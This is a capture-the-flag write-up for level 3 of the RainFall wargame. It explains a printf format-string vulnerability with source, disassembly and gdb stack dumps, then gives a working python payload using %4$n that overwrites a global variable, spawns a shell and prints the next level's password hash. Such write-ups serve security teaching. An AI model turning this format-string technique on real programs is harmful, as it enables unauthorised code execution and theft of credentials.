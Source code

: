 # Level 3

<h3>source.c</h3>

```console
int m = 0;

void v(void) {
  char str[520];

  fgets(str, 512, stdin);
  printf(str);
  if (m == 64) {
    fwrite("Wait what?!\n", 1, 12, stdout);
    system("/bin/sh");
  }
}


void main(void) {
  v();
}
```

<h3>Analysis</h3>

It seems that our target is the global variable `m` which is initialize to `0`, we need to somehow change this variable into `64` so it will spawn a shell for us

This time round, the programmer actually getting smarter by using `fgets()` which is more secured version of `gets()` as it limits the number of bytes written

But this programmer is stupid enough to use `printf()` with only an arg, and that is the 1st arg for `printf()` which control the formating

We could use `Format String` exploit to attack this program

<h3>Exploit</h3>

The `printf()` function will normally looks like this `printf("hello %s\n", str)`

The 1st arg is the `Format string`, where we could give any string we want, and it will iterate throught each char and print it out 1 by 1

When it encouters a special char like `%` (modifier), and since this is the 1st modifier, `printf()` will take the arg[1] provided to it and format the content before printing it out

In our case about, `%s` will format the content as a string, we could also use `%x` (hex) to print out the address instead

Now imagine what will happens with this code `printf("aaaa %x\n")`

As usual, it will read and print out each char until the `%x`, now it will try to look at the content of arg[1] and print its address out

But we never supply any arg to arg[1], so where will the it gets the content from? lets try it out in gdb!

```console
(gdb) r <<< "aaaabbbb %x %x %x %x %x %x"
Starting program: /home/user/level3/level3 <<< "aaaabbbb %x %x %x %x %x %x"
aaaabbbb 200 b7fd1ac0 b7ff37d0 61616161 62626262 20782520
```

The function print out the `aaaabbbb` like it should be, and after that it print out some hex valuable, where does it coming from ?

Base on our knowledge in assembly, a function arg will be placed at the top of the stack before calling the function itself

Below is the assembly analysis before the call of `printf()`

```console
0x080484a7 <+3>:    sub    esp,0x218                  Buffer 536 bytes for local variable
0x080484ad <+9>:    mov    eax,ds:0x8049860           ds (data segment) the content is stdin, copy this to eax
0x080484b2 <+14>:   mov    DWORD PTR [esp+0x8],eax    put eax (stdin) to 8bytes below the top of the stack, as the 3rd arg for the fgets function
0x080484b6 <+18>:   mov    DWORD PTR [esp+0x4],0x200  put number 512 to 4bytes below the top of the stack, as the 2nd arg for the fgets function
0x080484be <+26>:   lea    eax,[ebp-0x208]            load address of [ebp-0x208] (pointer to local variable1) into eax
0x080484c4 <+32>:   mov    DWORD PTR [esp],eax        put eax (pointer to local variable1) to the top of the stack, as the 1st arg for the fgets function
0x080484c7 <+35>:   call   0x80483a0 <fgets@plt>      call function fgets
0x080484cc <+40>:   lea    eax,[ebp-0x208]            load address of [ebp-0x208] (pointer to local variable1) into eax
0x080484d2 <+46>:   mov    DWORD PTR [esp],eax        put eax (pointer to local variable1) to the top of the stack, as the 1st arg for the printf function
0x080484d5 <+49>:   call   0x8048390 <printf@plt>     call function printf
```

Below is the state of the stack before the call of `printf()`

```console
(gdb) r <<< "aaaabbbb %x %x %x %x %x %x"
Starting program: /home/user/level3/level3 <<< "aaaabbbb %x %x %x %x %x %x"

Breakpoint 4, 0x080484d5 in v ()
(gdb) x/24wx $esp
0xbffff4d0:	0xbffff4e0	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff4e0:	0x61616161	0x62626262	0x20782520	0x25207825
0xbffff4f0:	0x78252078	0x20782520	0x000a7825	0x00000007
0xbffff500:	0x00000000	0xb7fde000	0xb7fff53c	0xbffff548
0xbffff510:	0x00000040	0x00000b80	0x00000000	0xb7fde714
0xbffff520:	0x00000098	0x0000000b	0x00000000	0x00000000
```

Base on the asm code, we can see that the char* str address is at `[ebp-0x208]` and the top of the stack is at `[ebp-0x218]`

It is reflected on the state above, where `0xbffff4d0` is the top of the stack, whereas `0xbffff4e0` is the char* str and we can see `0x61616161	0x62626262` is `aaaabbbb`, the string that we gave to the program

Since the function arg is normally taken from the top of the stack `$esp` (0xbffff4d0), `printf()` will read the stack to get the arg it needed

We can visuallize it like this

Top of the stack:

```console
0xbffff4d0:	0xbffff4e0	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff4e0:	0x61616161	0x62626262	0x20782520	0x25207825
```

```console
C code version:     printf("aaaabbbb %x %x %x %x %x %x")
ASM code version:   printf(0xbffff4e0,0x00000200,0xb7fd1ac0,0xb7ff37d0,0x61616161,0x62626262,0x20782520)
```

Thus we can go back to our inital question on where the `%x` gets the value from 

```console
Starting program: /home/user/level3/level3 <<< "aaaabbbb %x %x %x %x %x %x"
aaaabbbb 200 b7fd1ac0 b7ff37d0 61616161 62626262 20782520
```

Now how could we use this knowledge to do our exploit?

`printf()` have a modiffer `%n` which will write the total number of bytes written so far to the address pointed by the arg provided to it

Example:

```console
int count;

printf("hello %n world\n", &count);
```

hello(white_space) = 6 char written before the modifier %n, so 6 will be written to the address given to arg[1], which in this case is the `int count`

so now the `int count` will be equal to 6

Combine with all these knowledge, we will now write the number `64` into variable `m` !

First we know from gdb that the address of m is `\x8c\x98\x04\x08`

Next we know that the char* str is located at `[ebp-0x208]` or `[esp+0x10]` which will become the arg[4] for `printf()`

We can test it again to be sure

```console
level3@RainFall:~$ (python -c "print '\x8c\x98\x04\x08 %x %x %x %x'") | ./level3
� 200 b7fd1ac0 b7ff37d0 804988c
```

Indeed, the 4th modifier contain the start of our string, so we should put `%n` as our 4th modifier so it will write the char counter into it

We can use this shorthand `%4$n` so that `printf()` will look for `arg[4]` to apply the modifier on

```console
Address of m        -> \x8c\x98\x04\x08 (4 bytes)
A * 60              -> 6o bytes so we could reach a total of 64 bytes
%4$n                -> Write the char counter into the arg[4] of printf
```

```console
level3@RainFall:~$ (python -c "print '\x8c\x98\x04\x08' + 'a' * 60 + '%4\$n'"; cat -) | ./level3
�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

<h3>Helpful link for this exploit</h3>

https://www.youtube.com/watch?v=0WvrSfcdq1I&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=21